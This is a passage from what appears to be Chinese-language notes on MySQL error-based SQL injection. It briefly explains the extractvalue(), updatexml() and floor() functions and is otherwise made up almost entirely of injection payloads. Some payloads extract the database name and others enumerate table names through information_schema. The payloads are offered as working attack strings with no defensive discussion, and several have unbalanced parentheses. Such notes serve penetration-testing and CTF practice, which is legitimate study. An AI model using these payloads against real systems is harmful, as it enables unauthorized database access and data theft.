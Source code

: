 **extractvalue()函数：**

函数是MySQL对XML文档数据进行查询和修改的XPATH函数

语法

```
ExtractValue(xml_document,xpath_string)
```

- **xml_document**：String格式，为XML文档对象的名称，中文为Doc
- **XPath_string**：XPath_string(Xpath格式的字符串)



```sql
1' and extractvalue(1,concat('~',database()))) #
```

![image-20220131203408989](https://gitee.com/xxb667/img/raw/master/img/image-20220131203408989.png)

**floor()函数：**

MySQL中用来取整的函数

```sql
1' and (select 1 from (select count(*),concat('~',database(),'~',floor(rand(0)*2)) as x from information_schema.schemata group by x)a
```

```
1' and (select 0 from (select count(*),concat(database(),floor(rand(0)*2))x from information_schema.schemata group by x)a))#
```



##### 爆表

**updatexml()函数：**

```sql
1' and updatexml(1,concat('~',(select table_name from information_schema.tables where table_schema = database() limit 0,1)),1))#
```

![image-20220131213532971](https://gitee.com/xxb667/img/raw/master/img/image-20220131213532971.png)

**extractvalue()函数：**

```sql
1' and extractvalue(1,concat('~',(select table_name from information_schema.tables where table_schema = database() limit 0,1))))#
```

![image-20220131215031799](https://gitee.com/xxb667/img/raw/master/img/image-20220131215031799.png)

**floor()函数：**

```sql
1'and (select 1 from (select count(*),concat('~',(select table_name from information_schema.tables where table_schema = database() limit 0,1),'~',floor(rand(0)*2))as x from information_schema.tables group by x)a))#
```
